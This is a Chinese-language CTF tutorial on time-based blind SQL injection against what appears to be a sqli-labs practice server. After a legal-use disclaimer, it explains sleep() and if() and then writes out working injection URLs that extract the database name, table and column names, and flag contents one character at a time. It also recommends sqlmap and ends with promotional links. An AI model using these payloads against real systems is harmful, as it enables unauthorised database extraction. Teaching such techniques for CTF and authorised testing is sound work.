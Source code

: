 # sql注入之sleep注入

## 一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

## 二、原理

sleep注入又称基于时间的盲注。当网站页面上没有任何显示位，也没有输出sql语句执行错误信息。此时我们可以尝试采用sleep注入。

sleep注入需要注入的一点是，正常sql注入和错误的sql语句返回的页面都一样。但是加入了sleep(5)后页面的返回速度明显慢了五秒。

## 三、靶机地址

>http://39.98.88.18:8080/sql/Less-9/index.php?id=1

## 四、函数介绍

1.sleep()函数

sleep()函数可以让函数停留n秒时间，然后返回０。如果程序被打断,则返回1。

在一般情况下，sleep()函数的返回值恒为０，因此我们便可以利用sleep(n)=0的永真性来执行sql注入。

![](img/2.8/1.png)

执行上述语句的时候，会有一个时间的停顿。希望大家自己尝试一下。

2.if函数

if函数的表达式如下：

>if(表达式1,表达式2,表达式3)

如果表达式１是true，则返回表达式２；否则返回表达式３。

## 五、实战

因为此关注入成功的判断都是延迟五秒返回界面。故在此不在截图。

1.判断注入类型以及闭合方式

我们按照以前的方法在后面添加单引号，and 1=1等因此尝试，发现页面无变化。因此我们尝试如下链接

>http://39.98.88.18:8080/sql/Less-9/?id=1' and if(1=0,1, sleep(10)) --+

此时发现过了将近10s后页面正常返回。单引号闭合成功。

2.猜数据库

首先我们来判断一下数据库的长度

>http://39.98.88.18:8080/sql/Less-9/?id=1' and if(length(database())=8,sleep(10),1)--+

我们可以发现，当length(database())为其他致时，页面会立刻返回。因为此时length(database())值为假，if函数返回1。所以页面会可以返回。

接下来我们继续猜测数据库名称

>http://39.98.88.18:8080/sql/Less-9/?id=1' and If(ascii(substr(database(),1,1))=115,sleep(10),1)--+

此时，网站延时成功，根据我们上节课中给出的ascii码表。我们可以查出115对应的单词为s。

由于sleep注入sql语句错误时，不会有错误页面。即我们也无法使用二分法进行判断。因此我们需要逐位逐位的去常识。所以手工测试比较繁琐。

subsrt函数第二位表示截取位数，我们可以通过修改它的值，来判断后面的位置链接如下：

>http://39.98.88.18:8080/sql/Less-9/?id=1' and If(ascii(substr(database(),2,1))=100,sleep(10),1)--+

然后依次判断其他位数，再次不在详细叙述。

3.判断表名

首先我们来判断一下seucrity各个数据表的长度。

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(length((select table_name from information_schema.tables where table_schema='security' limit 1,1))=5,sleep(10),1)--+

然后依次判断表名称中的每个字符

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1))=117,sleep(10),1)--+

通过上面的判断我们可以的得出存在flag这个表。

４.判段flag表中的列。

判断flag表中列的长度

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(length((select column_name from information_schema.columns where table_schema='security' and table_name='flag' limit 1,1))=４,sleep(10),1)--+

可以判断长度为４位，然后判断列名

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='flag' limit 1,1),1,1))=117,sleep(10),1)--+

然后通过substr和limit参数来修改剩余各位。

5.判断内容

>http://39.98.88.18:8080/sql/Less-5/?id=1'and If(length((select flag from security.flag limit 0,1))=4,sleep(10),1)--+

## 六、sqlmap

因sql布尔型注入需要对猜解的字符进行逐个尝试，过程相对繁琐。故本人还是推荐使用sqlmap.

关于sqlmap使用，本节课程跟上节课程相同。故在此不做叙述。

## 七、赛题实战

如有问题，可以随时在知识星球内＠江江河畔砍柴人

赛题地址: https://t.zsxq.com/6AUzBaY

## 八、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

![](img/2.8/00.jpeg)

及时获取更多消息，请关注微信订阅号

![](img/2.8/0.jpg)
